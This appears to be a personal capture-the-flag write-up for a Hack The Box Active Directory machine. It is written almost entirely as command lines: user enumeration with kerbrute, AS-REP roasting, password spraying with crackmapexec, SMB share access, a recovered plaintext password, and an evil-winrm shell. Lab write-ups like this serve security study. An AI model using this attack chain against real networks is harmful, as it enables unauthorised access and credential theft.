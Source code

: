 
Valid Users
```
kerbrute userenum -d MEGABANK --dc 10.10.10.172 valid_user.txt -t 100
```
![[Pasted image 20240503124645.png]]

```
svc-bexec@MEGABANK
svc-ata@MEGABANK
roleary@MEGABANK
SABatchJobs@MEGABANK
svc-netapp@MEGABANK
smorgan@MEGABANK
administrator@MEGABANK
```


```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```
![[Pasted image 20240503124918.png]]

```
smorgan
Administrator
krbtgt
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
Guest
Administrator
AAD_987d7f2f57d2
mhope
dgalanos
Administrator
roleary
```

Valid Users
```
|   |
|---|
|Administrator@MEGABANK|
|svc-bexec@MEGABANK|
|roleary@MEGABANK|
|SABatchJobs@MEGABANK|
|mhope@MEGABANK|
|smorgan@MEGABANK|
|svc-netapp@MEGABANK|
|AAD_987d7f2f57d2@MEGABANK|
|SABatchJobs@MEGABANK|
|dgalanos@MEGABANK|
|svc-ata@MEGABANK|
```


```
crackmapexec smb 10.10.10.172 -u ~root/HackTheBox/Monterverde/password.txt -p ~root/HackTheBox/Monterverde/password.txt 
```

```
MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```
![[Pasted image 20240503175616.png]]


Let's check SMB access
```
crackmapexec smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
```

```
smbmap -u SABatchJobs -d MEGABANK.LOCAL -p 'SABatchJobs' -H 10.10.10.172
```
![[Pasted image 20240503180348.png]]

```
smbclient //10.10.10.172/users$ -U 'SABatchJobs' --password 'SABatchJobs'
```
![[Pasted image 20240503180623.png]]

When we open the file the XML file
![[Pasted image 20240503181028.png]]
```
4n0therD4y@n0th3r$
```


```
crackmapexec smb 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' --shares
```
![[Pasted image 20240503181245.png]]

```
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172
```

So finally we got the shell
![[Pasted image 20240503181643.png]]


```
d2101a768fb7f09c6b6fb7d728f911fa
```
![[Pasted image 20240503181747.png]]


How to check password Policy
```
crackmapexec smb 10.10.10.172 --pass-pol
```
![[Pasted image 20240505061805.png]]


We all got a new tool called Seatbelt.exe

```
sqlcmd ?
```
![[Pasted image 20240505063434.png]]

Will search for Powerup Cheatsheets
https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet
```

```